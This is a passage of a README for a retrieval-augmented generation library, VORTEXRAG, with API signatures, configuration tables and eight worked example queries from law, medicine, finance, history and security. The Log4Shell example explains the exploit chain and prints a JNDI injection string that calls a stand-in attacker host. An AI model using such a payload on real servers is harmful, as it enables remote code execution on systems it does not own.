    def batch_tve_scores(self, q: TVEVector, chunks: list[TVEVector]) -> np.ndarray: ...
    def explain_score(self, q: TVEVector, c: TVEVector) -> dict: ...
    def adapt_for_domain(self, domain: str) -> None: ...
```

### `SDCEvaluator`

```python
class SDCEvaluator:
    def evaluate(self, query_vec: TVEVector, candidate: Candidate) -> SDCResult: ...
    def batch_filter(self, query_vec: TVEVector, candidates: list[Candidate]) -> list[SDCResult]: ...
    def batch_filter_vectorized(self, query_vec: TVEVector, candidates: list[Candidate]) -> list[SDCResult]: ...
    def calibrate_tau(self, pairs: list[tuple], target_acceptance: float = 0.72) -> float: ...
    def threshold_analysis(self, results: list[SDCResult]) -> dict: ...
    def drift_category_breakdown(self, results: list[SDCResult]) -> dict: ...
```

### `CPGEvaluator`

```python
class CPGEvaluator:
    def evaluate(self, window: list[Candidate], query_vec: TVEVector) -> CPGResult: ...
    def purge(self, window: list[Candidate], query_vec: TVEVector) -> list[Candidate]: ...
    def window_quality_report(self, window: list[Candidate], query_vec: TVEVector) -> str: ...
    def simulate_purge(self, window: list[Candidate], query_vec: TVEVector) -> list[CPGResult]: ...
    def esr_curve(self, window: list[Candidate], query_vec: TVEVector) -> list[float]: ...
```

### `RFGRanker`

```python
class RFGRanker:
    def rank(self, candidates: list[Candidate], sdc_results: list[SDCResult], cpg_result: CPGResult) -> list[tuple[Candidate, float]]: ...
    def select_top_m_diverse(self, ranked: list[tuple[Candidate, float]], m: int, diversity_lambda: float = 0.5) -> list[Candidate]: ...
    def phi_breakdown(self, candidate: Candidate, sdc_result: SDCResult, cpg_result: CPGResult) -> dict: ...
    def cross_domain_ranking(self, candidates: list[Candidate], sdc_results: list[SDCResult], cpg_result: CPGResult, domains: list[str]) -> dict[str, list]: ...
```

### `CCBBuilder`

```python
class CCBBuilder:
    def build(self, chunks: list[Candidate], query_vec: TVEVector) -> list[OrderedContextSlot]: ...
    def deduplicate(self, chunks: list[Candidate]) -> list[Candidate]: ...
    def to_structured_context(self, slots: list[OrderedContextSlot]) -> list[dict]: ...
    def explain_ordering(self, slots: list[OrderedContextSlot]) -> str: ...
    def causal_chain_summary(self, slots: list[OrderedContextSlot]) -> dict: ...
    def token_budget_usage(self, slots: list[OrderedContextSlot], budget: int = 4096) -> dict: ...
```

### `FVVerifier`

```python
class FVVerifier:
    def verify(self, answer: str, context: str, iteration: int = 1) -> FVResult: ...
    def verify_with_retry(self, context: str, generate_fn: Callable[[str, int], str]) -> FVResult: ...
    def rouge_l(self, hypothesis: str, reference: str) -> float: ...
    def rouge_n(self, hypothesis: str, reference: str, n: int = 1) -> float: ...
    def all_rouge(self, hypothesis: str, reference: str) -> dict[str, float]: ...
    def sentence_level_verify(self, answer: str, context: str) -> list[SentenceFVResult]: ...
    def citation_trace(self, answer: str, context_slots: list[OrderedContextSlot]) -> list[dict]: ...
    def grounding_report(self, answer: str, context: str) -> dict: ...
    def compare_answers(self, answers: list[str], context: str) -> list[FVResult]: ...
    def threshold_analysis(self, answer: str, context: str, thresholds: list[float] = None) -> dict: ...
```

---

## Configuration Reference

### `VortexRAGConfig`

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `domain` | `str` | `"general"` | Domain preset — sets all sub-configs automatically |
| `corpus_pool_size` | `int` | `200` | Number of candidates VRC returns |
| `top_m` | `int` | `8` | Final context window size |

### `TVEConfig`

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `alpha` | `float` | `0.50` | Weight for semantic arm ∈ [0, 1] |
| `beta` | `float` | `0.25` | Weight for syntactic arm ∈ [0, 1] |
| `gamma` | `float` | `0.25` | Weight for causal arm ∈ [0, 1] |
| `model_name` | `str` | `"all-mpnet-base-v2"` | SBERT model name |
| `semantic_dim` | `int` | `768` | Semantic embedding dimension |
| `syntactic_dim` | `int` | `64` | Syntactic projection dimension |
| `causal_dim` | `int` | `32` | Causal projection dimension |
| `domain` | `str` | `"general"` | Domain preset (overrides α/β/γ if set) |

### `VRCConfig`

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `lambda_decay` | `float` | `0.5` | Radial decay rate λ |
| `n_spiral` | `int` | `2` | Spiral tightness n ∈ {1, 2, 3} |
| `pool_size` | `int` | `200` | Number of candidates to return |
| `adaptive_lambda` | `bool` | `False` | Auto-tune λ based on corpus size |

### `SDCConfig`

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `tau` | `float` | `0.80` | Drift temperature τ (domain-tuned) |
| `delta_sdc` | `float` | `0.72` | SDS acceptance threshold |
| `domain` | `str` | `"general"` | Domain preset (overrides τ) |
| `strict_mode` | `bool` | `False` | Reject borderline chunks (SDS < δ + 0.05) |

### `CPGConfig`

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `theta_cpg` | `float` | `3.5` | ESR clean threshold |
| `max_purge_rounds` | `int` | `30` | Maximum purge iterations |
| `min_window_size` | `int` | `2` | Minimum chunks to retain |

### `RFGConfig`

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `alpha` | `float` | `0.40` | Φ exponent for TVE score |
| `beta` | `float` | `0.35` | Φ exponent for SDS score |
| `gamma` | `float` | `0.25` | Φ exponent for ESR contribution |
| `top_m` | `int` | `8` | Number of chunks to select |
| `diversity_weight` | `float` | `0.0` | MMR diversity weight λ ∈ [0, 1] |
| `domain` | `str` | `"general"` | Domain preset (overrides α/β/γ) |

### `CCBConfig`

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `max_slots` | `int` | `8` | Maximum context slots |
| `dedup_threshold` | `float` | `0.92` | Cosine similarity threshold for dedup |
| `enable_dedup` | `bool` | `True` | Enable MMR-style deduplication |
| `causal_depth_bonus` | `int` | `2` | Depth reduction for causal verb–dense chunks |

### `FVConfig`

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `delta_fv` | `float` | `0.15` | ΔR acceptance threshold |
| `max_iterations` | `int` | `3` | Maximum regeneration attempts |
| `nli_model` | `str` | `"cross-encoder/nli-deberta-v3-small"` | CrossEncoder NLI model |
| `use_nli` | `bool` | `False` | Enable NLI (requires sentence-transformers) |

---

## Sample Test Cases

### Test 1: Multi-hop Legal Reasoning

**Query:** *"Did the precedent set in Brown v. Board also apply to public universities before 1964?"*

**Standard RAG failure:** Retrieves Brown (1954) but also retrieves Civil Rights Act (1964) and general civil rights chunks due to semantic similarity. LLM answers: *"Brown applied broadly, and the 1964 Act formalized it"* — missing the actual 1958 extension.

**VORTEXRAG pipeline:**
- TVE causal arm detects: judicial mandate chain vs legislative action chain (different causal types)
- SDC: Civil Rights Act chunk → SDS=0.31 (causal chain mismatch: legislative ≠ judicial); rejected
- CPG: 14th Amendment chunk → ESR drops below 3.5 when included; purged
- CCB orders: Cooper v. Aaron (1958, depth=0) → Sweatt v. Painter (1950, depth=1) → Brown (1954, depth=2)
- FV: ΔR=0.09 ≤ 0.15 ✓ Accepted

**Correct answer:** Yes — Cooper v. Aaron (1958) unanimously extended Brown's mandate to all state institutions including public universities, predating the 1964 Act by 6 years.

---

### Test 2: Medical Mechanism Synthesis

**Query:** *"What is the mechanistic difference between mRNA vaccines and viral vector vaccines in spike protein expression?"*

**Standard RAG failure:** Both vaccine-type chunks have high cosine similarity. CWP causes the LLM to conflate the two pathways: *"Both types deliver RNA to ribosomes"* — incorrect for viral vector vaccines.

**VORTEXRAG pipeline:**
- TVE causal arm encodes distinct causal pathways: cytoplasm-only vs nucleus → cytoplasm
- CPG separates the two causal chains (ESR drops when both appear together); purges the lower-SDS chain
- CCB orders: mRNA delivery (depth=0) → mRNA translation (depth=1) then vector delivery (depth=0) → nuclear transcription (depth=1) → translation (depth=2)
- FV: ΔR=0.08 ≤ 0.15 ✓

**Correct answer:** mRNA vaccines bypass the nucleus entirely (cytoplasmic translation); viral vector vaccines require nuclear entry for DNA-to-mRNA transcription before cytoplasmic translation.

---

### Test 3: Code Documentation (asyncio SyntaxError)

**Query:** *"In Python asyncio, why does await inside a non-async function cause a SyntaxError but not a RuntimeError?"*

**Standard RAG failure:** Semantic drift — retrieves `asyncio.run()` RuntimeError docs (semantically similar: both mention asyncio, errors) but causally irrelevant (runtime vs parse-time).

**VORTEXRAG pipeline:**
- TVE syntactic arm: `SyntaxError` → grammar/parser; `RuntimeError` → event loop state (different AST depth signatures)
- SDC: asyncio.run() RuntimeError chunk → SDS=0.28; causal drift = event loop state ≠ parser grammar; rejected
- CCB orders: Python parser/grammar (depth=0) → `await` keyword spec (depth=1) → SyntaxError raising (depth=2)
- FV: ΔR=0.11 ✓

**Correct answer:** Python's parser enforces `await` syntax at compile time (grammar-level check, before execution). `RuntimeError` requires runtime execution to detect — but the parser never gets that far.

---

### Test 4: Scientific Reasoning (Supernovae Progenitors)

**Query:** *"What distinguishes Type Ia from Type II supernovae in terms of their progenitor systems?"*

**Standard RAG failure:** Retrieves "standard candle" luminosity chunks (high cosine sim: both mention Type Ia, supernovae) but about observational properties, not progenitor systems.

**VORTEXRAG pipeline:**
- TVE causal arm: "progenitor system" → causal precondition chain; "standard candle" → observational property chain
- SDC: luminosity/distance modulus chunks → SDS=0.29; observable property ≠ progenitor system; rejected
- Context: binary WD accretion (Type Ia) + massive star iron core (Type II) only
- FV: ΔR=0.07 ✓

**Correct answer:** Type Ia: white dwarf in binary system accretes to Chandrasekhar mass → thermonuclear runaway, no remnant. Type II: massive star (>8 M☉) iron core collapse → neutron star/black hole remnant.

---

### Test 5: Financial Causation (2008 Crisis)

**Query:** *"What specifically caused the collapse of the MBS market in 2008, not its consequences?"*

**Standard RAG failure:** Retrieves both root-cause chunks (CDO tranching failures) and consequence chunks (TARP, recession, unemployment). The LLM conflates cause and consequence: *"CDOs failed, causing unemployment to spike"* — mixing causal levels.

**VORTEXRAG pipeline:**
- TVE causal arm: distinguishes causal precondition chains from consequence chains via causal verb density
- SDC (τ=0.50): TARP chunk → SDS=0.38; consequence ≠ mechanism; rejected. Unemployment chunk → SDS=0.22; rejected
- CPG: ESR rises sharply when consequence chunks are removed; clean window achieved at ESR=4.1
- CCB: CDO tranching model (depth=0) → rating agency failure (depth=1) → MBS sell-off (depth=2)
- FV: ΔR=0.10 ✓

**Correct answer:** AAA-rated CDO tranches containing subprime mortgages failed simultaneously when default correlations exceeded model assumptions. Rating agencies had systematically underestimated correlation risk, causing the entire MBS market to freeze when interbank trust collapsed.

---

### Test 6: Cybersecurity — Log4Shell Exploit Chain

**Query:** *"How does the Log4Shell vulnerability exploit JNDI lookup to achieve remote code execution?"*

**Standard RAG failure:** Retrieves CVE description (attack vector info), patch notes (mitigation), and impact analysis (RCE consequences) — all with very high cosine similarity. LLM conflates all four stages into an incoherent answer.

**VORTEXRAG pipeline:**
- TVE separates: attack vector (JNDI string injection) → LDAP lookup → class loading → RCE execution (4 causal stages)
- SDC (τ=0.45): patch notes → SDS=0.31 (mitigation ≠ exploit mechanism); impact analysis → SDS=0.35; both rejected
- CCB orders exploit chain: JNDI string format (depth=0) → LDAP callback (depth=1) → remote classloader (depth=2) → code execution (depth=3)
- FV: ΔR=0.09 ✓

**Correct answer:** Log4j's message interpolation evaluates `${jndi:ldap://attacker.com/x}` strings. The JNDI lookup triggers an outbound LDAP request to the attacker's server, which responds with a reference to a malicious Java class. Log4j's classloader fetches and instantiates that class, executing attacker-controlled code in the target JVM.

---

### Test 7: Educational — Transformer Attention

**Query:** *"Why does multi-head attention use multiple heads rather than one large attention operation?"*

**Standard RAG failure:** Retrieves both "what attention does" (semantic definition) and "how transformers work overall" (architectural overview). LLM gives a vague answer mixing mechanism with motivation.

**VORTEXRAG pipeline:**
- TVE: "why multiple heads" → causal/motivational query; "what attention does" → definitional chunks; separated by causal arm
- SDC (τ=0.65): architectural overview chunks → SDS=0.64; borderline but below δ=0.72; rejected
- CCB: single-head limitation (depth=0) → multi-head formulation (depth=1) → parallel representation advantage (depth=2)
- FV: ΔR=0.12 ✓

**Correct answer:** Multiple heads allow the model to jointly attend to information from different representation subspaces at different positions simultaneously. A single large attention head would average all positional relationships into one distribution, losing the ability to capture both local (syntactic) and global (semantic) dependencies in parallel.

---

### Test 8: Historical — WWI Causation

**Query:** *"What was the primary chain of events that turned Franz Ferdinand's assassination into a world war, excluding the war's consequences?"*

**Standard RAG failure:** Retrieves assassination context, Treaty of Versailles terms, and WWI timeline all together. LLM generates a mixed pre/post-war narrative.

**VORTEXRAG pipeline:**
- TVE causal arm: "what turned X into Y" → explicit causal chain query; Versailles/consequences → temporal drift
- SDC (τ=0.90): Treaty of Versailles chunks → SDS=0.42; post-war ≠ causal antecedent; rejected. Trench warfare chunks → SDS=0.51; consequence ≠ trigger chain; rejected
- CPG: ESR=4.7 after removing post-war chunks
- CCB: Assassination (depth=0) → Austro-Hungarian ultimatum (depth=1) → Serbian rejection (depth=2) → Austrian declaration (depth=3) → alliance activation (depth=4)
- FV: ΔR=0.11 ✓

**Correct answer:** Franz Ferdinand's assassination triggered Austria-Hungary's July Ultimatum to Serbia. Serbia's partial rejection led to the Austrian declaration of war (July 28). This activated the interlocking alliance system: Russia mobilized for Serbia; Germany declared war on Russia; the Schlieffen Plan triggered German invasion of Belgium; Britain declared war on Germany. Six weeks: assassination to world war.

---

## File Structure

```
VORTEXRAG/
├── core/
│   ├── __init__.py
│   ├── tve.py          # Tri-Vector Encoder — encode_query, encode_chunk, batch_tve_scores, arm_scores, explain_score, domain_sensitivity
│   ├── vrc.py          # Vortex Retrieval Cone — spiral_rank, polar coords, adaptive_lambda, compare_with_flat_topk
│   ├── sdc.py          # Semantic Drift Corrector — SDS, drift vector, batch_sds, calibrate_tau, drift_category_breakdown
│   ├── cpg.py          # Context Poison Guard — ESR, iterative purging, window_quality_report, esr_curve, poison_contribution_matrix
│   ├── rfg.py          # Rank Fusion Gate — Φ-score, select_top_m_diverse (MMR), sensitivity_analysis, cross_domain_ranking
│   ├── ccb.py          # Causal Context Builder — causal depth, dedup, to_structured_context, causal_chain_summary, token_budget_usage
│   └── fv.py           # Faithfulness Verifier — ΔR, ROUGE-L/1/2, NLI, sentence_level_verify, citation_trace, grounding_report
├── docs/
│   └── index.html      # GitHub Pages site — canvas vortex animation, interactive SVG pipeline, 11 formula tabs, 3 Chart.js benchmarks, 10 use cases, 8 test cases
├── tests/
│   ├── test_tve.py     # TVE unit tests (12 cases)
│   ├── test_vrc.py     # VRC unit tests (10 cases)
│   ├── test_sdc.py     # SDC unit tests (10 cases)
│   ├── test_cpg.py     # CPG unit tests (9 cases)
│   ├── test_rfg.py     # RFG unit tests (8 cases)
│   ├── test_ccb.py     # CCB unit tests (9 cases)
│   ├── test_fv.py      # FV unit tests (11 cases)
│   └── test_e2e.py     # End-to-end pipeline tests (8 worked examples)
├── examples/
│   ├── legal_qa.py        # Multi-hop legal reasoning demo
│   ├── medical_qa.py      # Medical mechanism synthesis demo
│   ├── financial_qa.py    # Financial causation demo
│   ├── cybersec_qa.py     # Cybersecurity exploit chain demo
│   └── benchmark.py       # Full benchmark comparison runner
├── .github/
│   └── workflows/
│       └── ci.yml         # CI: test + lint + GitHub Pages deploy
├── vortexrag.py            # Main VortexRAG pipeline class
├── setup.py
├── requirements.txt
└── LICENSE
```

---

## Documentation

| Module | Key Classes | Key Methods | Formulas |
|--------|-------------|-------------|----------|
| [core/tve.py](core/tve.py) | `TVEEncoder`, `TVEConfig`, `TVEVector` | `encode_query`, `batch_tve_scores`, `explain_score`, `domain_sensitivity` | TVE score, arm weighting, domain presets |
| [core/vrc.py](core/vrc.py) | `VRCRetriever`, `VRCConfig` | `retrieve`, `explain_spiral_rank`, `compare_with_flat_topk`, `adaptive_lambda` | spiral_rank = TVE·e^(−λr)·cos(nθ) |
| [core/sdc.py](core/sdc.py) | `SDCEvaluator`, `SDCConfig`, `SDCResult` | `batch_filter_vectorized`, `calibrate_tau`, `drift_category_breakdown` | SDS = 1 − tanh(‖D‖/τ) |
| [core/cpg.py](core/cpg.py) | `CPGEvaluator`, `CPGConfig`, `CPGResult` | `purge`, `window_quality_report`, `esr_curve`, `poison_contribution_matrix` | ESR = Σ SDS·w / (P+ε) |
| [core/rfg.py](core/rfg.py) | `RFGRanker`, `RFGConfig` | `rank`, `select_top_m_diverse`, `sensitivity_analysis`, `cross_domain_ranking` | Φ = TVE^α × SDS^β × ESR^γ |
| [core/ccb.py](core/ccb.py) | `CCBBuilder`, `CCBConfig`, `OrderedContextSlot` | `build`, `deduplicate`, `to_structured_context`, `causal_chain_summary` | pos = rank × causal_depth |
| [core/fv.py](core/fv.py) | `FVVerifier`, `FVConfig`, `FVResult` | `verify_with_retry`, `sentence_level_verify`, `citation_trace`, `grounding_report` | ΔR = 1 − ROUGE-L × NLI |

---

## Citation

```bibtex
@software{vortexrag2025,
  author    = {Vignesh},
  title     = {{VORTEXRAG}: Vector Orthogonal Resonance-Tuned {EXtraction}
               Retrieval-Augmented Generation},
  year      = {2025},
  url       = {https://github.com/vignesh2027/VORTEXRAG},
  note      = {Solves semantic drift and context poisoning simultaneously
               via 7-layer tri-vector pipeline}
}
```

---

<div align="center">

**VORTEXRAG** · MIT License · Built with NumPy, SBERT, spaCy

*"The only RAG that kills semantic drift and context poisoning simultaneously."*

</div>
